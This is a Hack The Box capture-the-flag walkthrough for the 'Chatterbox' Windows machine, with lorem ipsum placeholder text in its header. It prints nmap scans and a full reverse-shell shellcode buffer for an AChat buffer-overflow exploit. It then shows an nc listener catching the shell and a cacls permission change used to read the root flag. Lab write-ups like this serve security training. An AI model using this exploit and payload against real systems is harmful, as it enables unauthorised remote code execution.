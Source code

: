 ```yaml
---
title: chatterbox - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-03-27
image: images/chatterbox_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/chatterbox_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/chatterbox]# nmap -Pn -n -sCV 10.10.10.74 --open                                                                   (master✱)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:20 CET
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.69 seconds

Normal nmap scan finds nothing. Trying UDP returns the same, nothing.
[root:/git/htb/chatterbox]# nmap -sU -sV --version-intensity 0 -F -n 10.10.10.74                                                  (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:24 CET
  Nmap scan report for 10.10.10.74
  Host is up (0.035s latency).
  All 100 scanned ports on 10.10.10.74 are open|filtered

Expand the tcp scan by looking on all ports.
[root:/git/htb/chatterbox]# nmap -p- -T5 10.10.10.74                                                                              (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:33 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).
  Not shown: 65533 filtered ports
  PORT     STATE SERVICE
  9255/tcp open  mon
  9256/tcp open  unknown

Version and script scan to see if we can figure out anything more about the services:
[root:/git/htb/chatterbox]# nmap -sCV -p9255,9256 10.10.10.74                                                                     (master✱)
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-26 10:38 CET
  Nmap scan report for chatterbox.htb (10.10.10.74)
  Host is up (0.034s latency).

  PORT     STATE SERVICE VERSION
  9255/tcp open  http    AChat chat system httpd
  |_http-server-header: AChat
  |_http-title: Site doesn't have a title.
  9256/tcp open  achat   AChat chat system

[root:/git/htb/chatterbox]# curl 10.10.10.74:9255                                                                                 (master✱)
[root:/git/htb/chatterbox]# curl 10.10.10.74:9256                                                                                 (master✱)
  curl: (1) Received HTTP/0.9 when not allowed


2. Google for 'AChat enumerate port 9255 9256' and I come across 'achat reverse tcp exploit'. Downloading the files,
modify the payload-file to create a 'windows/shell_reverse_tcp' payload rather then meterpreter (no go in OSCP).

Generate the payload, edit the exploit-file with the new buf-data, and lastly change the server address (in the script)
to our victim.

[root:/git/htb/chatterbox]# ./AChat_Payload.sh                                                                                    (master✱)
  RHOST: 10.10.10.74
  LHOST: 10.10.14.5
  LPORT: 4488
  Found 1 compatible encoders
  Attempting to encode payload with 1 iterations of x86/unicode_mixed
  x86/unicode_mixed succeeded with size 774 (iteration=0)
  x86/unicode_mixed chosen with final size 774
  Payload size: 774 bytes
  Final size of python file: 3767 bytes
  buf =  b""
  buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
  buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
  buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
  buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
  buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
  buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
  buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
  buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
  buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
  buf += b"\x47\x42\x39\x75\x34\x4a\x42\x49\x6c\x48\x68\x35\x32"
  buf += b"\x39\x70\x4b\x50\x6b\x50\x53\x30\x31\x79\x6b\x35\x50"
  buf += b"\x31\x55\x70\x4f\x74\x62\x6b\x42\x30\x6e\x50\x42\x6b"
  buf += b"\x6e\x72\x6a\x6c\x44\x4b\x6e\x72\x4e\x34\x34\x4b\x52"
  buf += b"\x52\x4d\x58\x7a\x6f\x74\x77\x4f\x5a\x4d\x56\x6d\x61"
  buf += b"\x59\x6f\x74\x6c\x6f\x4c\x70\x61\x43\x4c\x6c\x42\x4c"
  buf += b"\x6c\x6f\x30\x35\x71\x78\x4f\x7a\x6d\x4d\x31\x56\x67"
  buf += b"\x57\x72\x4c\x32\x52\x32\x51\x47\x62\x6b\x62\x32\x4a"
  buf += b"\x70\x62\x6b\x4e\x6a\x4d\x6c\x44\x4b\x30\x4c\x4e\x31"
  buf += b"\x42\x58\x38\x63\x6d\x78\x59\x71\x47\x61\x70\x51\x44"
  buf += b"\x4b\x52\x39\x4f\x30\x6d\x31\x78\x53\x64\x4b\x51\x39"
  buf += b"\x7a\x78\x69\x53\x6e\x5a\x6d\x79\x62\x6b\x4d\x64\x64"
  buf += b"\x4b\x6d\x31\x49\x46\x50\x31\x59\x6f\x54\x6c\x76\x61"
  buf += b"\x36\x6f\x6c\x4d\x59\x71\x49\x37\x6e\x58\x39\x50\x43"
  buf += b"\x45\x4c\x36\x6c\x43\x33\x4d\x6c\x38\x6f\x4b\x73\x4d"
  buf += b"\x6b\x74\x64\x35\x6b\x34\x72\x38\x44\x4b\x52\x38\x4d"
  buf += b"\x54\x7a\x61\x38\x53\x50\x66\x72\x6b\x4c\x4c\x70\x4b"
  buf += b"\x34\x4b\x61\x48\x4b\x6c\x39\x71\x68\x53\x54\x4b\x6d"
  buf += b"\x34\x32\x6b\x79\x71\x78\x50\x61\x79\x4f\x54\x6f\x34"
  buf += b"\x6d\x54\x61\x4b\x6f\x6b\x63\x31\x42\x39\x50\x5a\x52"
  buf += b"\x31\x49\x6f\x69\x50\x4f\x6f\x31\x4f\x51\x4a\x64\x4b"
  buf += b"\x6a\x72\x6a\x4b\x32\x6d\x6f\x6d\x72\x48\x6c\x73\x6d"
  buf += b"\x62\x4b\x50\x6d\x30\x73\x38\x53\x47\x70\x73\x70\x32"
  buf += b"\x31\x4f\x50\x54\x72\x48\x6e\x6c\x50\x77\x6e\x46\x69"
  buf += b"\x77\x4b\x4f\x67\x65\x57\x48\x64\x50\x6a\x61\x69\x70"
  buf += b"\x59\x70\x6b\x79\x66\x64\x4f\x64\x6e\x70\x52\x48\x4d"
  buf += b"\x59\x75\x30\x62\x4b\x69\x70\x59\x6f\x36\x75\x42\x30"
  buf += b"\x32\x30\x72\x30\x6e\x70\x6d\x70\x4e\x70\x4d\x70\x30"
  buf += b"\x50\x52\x48\x7a\x4a\x4a\x6f\x57\x6f\x67\x70\x59\x6f"
  buf += b"\x47\x65\x43\x67\x70\x6a\x4a\x65\x71\x58\x4a\x6a\x69"
  buf += b"\x7a\x6a\x6e\x59\x75\x32\x48\x6b\x52\x6b\x50\x6b\x61"
  buf += b"\x33\x58\x34\x49\x78\x66\x70\x6a\x6e\x30\x42\x36\x51"
  buf += b"\x47\x6f\x78\x35\x49\x54\x65\x30\x74\x63\x31\x79\x6f"
  buf += b"\x36\x75\x62\x65\x69\x30\x73\x44\x7a\x6c\x79\x6f\x70"
  buf += b"\x4e\x6a\x68\x44\x35\x5a\x4c\x30\x68\x38\x70\x57\x45"
  buf += b"\x34\x62\x71\x46\x4b\x4f\x48\x55\x61\x58\x33\x33\x52"
  buf += b"\x4d\x4f\x74\x6b\x50\x32\x69\x69\x53\x71\x47\x50\x57"
  buf += b"\x71\x47\x6c\x71\x79\x66\x4f\x7a\x4b\x62\x32\x39\x31"
  buf += b"\x46\x47\x72\x4b\x4d\x62\x46\x48\x47\x4d\x74\x4d\x54"
  buf += b"\x6f\x4c\x69\x71\x6b\x51\x72\x6d\x4e\x64\x6c\x64\x6c"
  buf += b"\x50\x67\x56\x49\x70\x6d\x74\x42\x34\x4e\x70\x6f\x66"
  buf += b"\x71\x46\x4f\x66\x61\x36\x52\x36\x6e\x6e\x62\x36\x62"
  buf += b"\x36\x6e\x73\x4e\x76\x53\x38\x30\x79\x58\x4c\x6d\x6f"
  buf += b"\x74\x46\x4b\x4f\x68\x55\x62\x69\x37\x70\x6e\x6e\x62"
  buf += b"\x36\x6f\x56\x4b\x4f\x4c\x70\x61\x58\x4d\x38\x54\x47"
  buf += b"\x6b\x6d\x33\x30\x6b\x4f\x66\x75\x67\x4b\x49\x50\x4d"
  buf += b"\x4d\x4d\x5a\x59\x7a\x61\x58\x76\x46\x34\x55\x77\x4d"
  buf += b"\x53\x6d\x39\x6f\x36\x75\x6f\x4c\x5a\x66\x51\x6c\x5a"
  buf += b"\x6a\x71\x70\x6b\x4b\x79\x50\x54\x35\x5a\x65\x55\x6b"
  buf += b"\x31\x37\x6b\x63\x31\x62\x72\x4f\x71\x5a\x79\x70\x51"

[root:/git/htb/chatterbox]# python AChat_Exploit.py                                                                               (master✱)
  [+] BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER

[root:/git/htb/chatterbox]# rlwrap nc -lvnp 4488                                                                                  (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.5] from (UNKNOWN) [10.10.10.74] 49161
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32> whoami
    chatterbox\alfred


3. Grab user.txt

C:\Users\Alfred\Desktop> type user.txt
  02c94ad2f3a9d10f7f327b895249a2f8

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Once we have a reverse shell as Alfred, we notice that we got read access to the \Users\Administrator directory - usually
the users don't have permission to enter this folder.

C:\Users\Administrator\Desktop> type root.txt
Access is denied.

Unfortunately we can't just print root as of yet. But maybe the privileges of the Admin dir is a good place to start.

C:\Users\Administrator\Desktop> dir root.txt /q
  03/26/2021  07:51 AM                34 CHATTERBOX\Alfred      root.txt


C:\Users\Administrator\Desktop> cacls root.txt /G Alfred:R
  Are you sure (Y/N)? y
  processed file: C:\Users\Administrator\Desktop\root.txt

C:\Users\Administrator\Desktop> type root.txt
  efd540d3337ebc9d2682bec22ab89f45


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

AChat Reverse TCP Exploit:
  https://github.com/EDB4YLI55/achat_reverse_tcp_exploit

File ownership Win7:
  https://superuser.com/questions/691578/how-to-display-change-the-owner-of-a-file-on-windows-7
